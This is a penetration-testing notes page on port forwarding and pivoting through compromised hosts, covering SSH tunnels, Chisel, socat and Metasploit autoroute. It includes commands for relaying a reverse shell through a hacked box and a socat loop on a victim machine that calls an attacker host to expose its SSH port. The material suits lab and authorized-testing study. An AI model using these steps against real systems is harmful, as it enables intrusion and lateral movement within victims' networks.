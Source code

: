 ```yaml
---
description: Port Forwarding and Pivoting
---
```


# Port Forwarding

## SSH

### Locally

Example: we want to connect to the port 1025 on the remote machine "delivery" on our port 1337.

```
ssh -L 1337:localhost:1025 maildeliverer@delivery
```

Example: we want to access the port 1025 on the remote machine "pivotable" through the machine "delivery" on our machine on port 1337.&#x20;

```
ssh -L 1337:pivotable:1025 maildeliverer@delivery
```

### Remotely

Example: SSH to my kali, opens up port 1025 on the victim's localhost, to be accessible at port 1337 on kali.

```
ssh -R 1337:localhost:1025 kali@mykali
```

### Dynamically

This creates a SOCKS proxy that allows you to reach IP addresses that are in the same network as a box you can SSH to.&#x20;

Run the following commands on the box you want to proxy through:

```
# in an ssh session:
~C
-D 1080
```

Then, on your machine, make sure `/etc/proxychains.conf` has:

```
socks5 127.0.0.1 1080
```

Then you can use the `proxychains` command in front of your other commands to proxy through the machine. For example, this command curls the IP address 192.168.122.4 through the proxied machine:

```
proxychains curl 192.168.122.4
```

To use that with burp, go to "User Options", select "use socks proxy", and configure it to go through localhost on port 1080.

### Two Hops

This section explains how to forward a reverse shell gained in a second hacked box through a first hacked box to kali.

Run the following commands on the first hacked machine:

```
# in an ssh session:
~C

# first part is for the hacked machine
# second part is for kali
-R 127.0.0.1:9001:127.0.0.1:9001 
```

**Question:** Why can't we just specify the private IP address in the above command instead of 127.0.0.1? In that case, we wouldn't have to redirect with socat later on.

You can confirm whether it worked by running:

```
netstat -alnp | grep 9001
```

This will send everything from the hacked machine's localhost:9001 to kali:9001. However, **it will not send anything from the hacked machine's private IP address** to kali.&#x20;

You can use socat to redirect traffic from the second hacked machine's private IP address to its localhost, so that the traffic could be forwarded to kali.&#x20;

In this example, the first hacked box's IP address is 192.168.122.1:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

After you have set that up, you can run a reverse shell on the second hacked machine and have it connect to port 9001 on the first hacked machine. That connection will be forwarded to port 9001 on your kali. **Don't forget to run a listener on port 9001** in kali to catch the connection.

## Chisel

This will allow you to access port 4505 on the target's localhost from port 4505 on your own machine.

```
# Run on kali
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse

# Run on target machine
./chisel_1.7.6_linux_amd64 client YOUR_IP_ADDRESS:12312 R:4505:127.0.0.1:4505
```

## Socat

### Same Machine Redirection

You can use socat for redirecting a port to another port on the same machine.

For example, this command redirects port 9001 on the IP address 192.168.122.1 to localhost:9001 **on that same machine**:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

### **Access Remote Port Through Local Port**

{% embed url="https://book.hacktricks.xyz/tunneling-and-port-forwarding#remote-port-2-port" %}

**Warning**: For some strange reason, when I used this to forward a web port, then I was able to do curl requests to this, but not gobuster or wfuzz.

```
# On attacker's machine
# Redirect port 2222 to port 443 in localhost
sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

# On victim machine
# Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
while true; do socat TCP4:ATTACKER_IP_ADDRESS_HERE:443 TCP4:127.0.0.1:22 ; done 
```

After following the above example, your port 2222 will be forwarded to a victim's port 22. So you can SSH to the victim like this:

```
ssh localhost -p 2222
```

## Meterpreter Autorouting

Use autoroute to automatically route traffic to a specific host

{% embed url="https://www.offensive-security.com/metasploit-unleashed/pivoting/" %}

Set up a socks proxy

```
use auxiliary/server/socks_proxy
run
```

Then set up proxychains by editing `/etc/proxychains.conf`. Add the socks5 proxy line under  `[ProxyList]`(if there is already a ProxyList, add the line under the existing ProxyList):

```
[ProxyList]
socks5 127.0.0.1 1080
```

In metasploit, set up autorouting

```
use multi/manage/autoroute
set cmd autoadd
set session SESSION_NUMBER_HERE # Has to be meterpreter I think
set subnet NETWORK_IP_ADDRESS_HERE
set netmask NETMASK_HERE
run
```

After that is done, you can run metasploit tools against the selected host. For example, `scanner/portscan/tcp` (the socks proxy part wasn't actually needed for this).

&#x20;But you want to reach the host using non-metasploit tools, too. To run nmap and other tools against hosts in the chosen subnet, use proxychains. For example, let's say you chose the subnet 172.17.0.0, and you want to scan the host at 172.17.0.1:

```
proxychains -q nmap -A -v 172.17.0.1
```

**Warning: I didn't actually get the proxychains part to work. Probably something is missing.**

## Meterpreter Port Forwarding

Portfwd is a command you can use for port forwarding on meterpreter

{% embed url="https://www.offensive-security.com/metasploit-unleashed/portfwd/" %}

## Pivoting Cheat Sheet

In-depth guide on different scenarios (ssh, reverse, tunnelling, etc):

[https://artkond.com/2017/03/23/pivoting-guide/](https://artkond.com/2017/03/23/pivoting-guide/)\
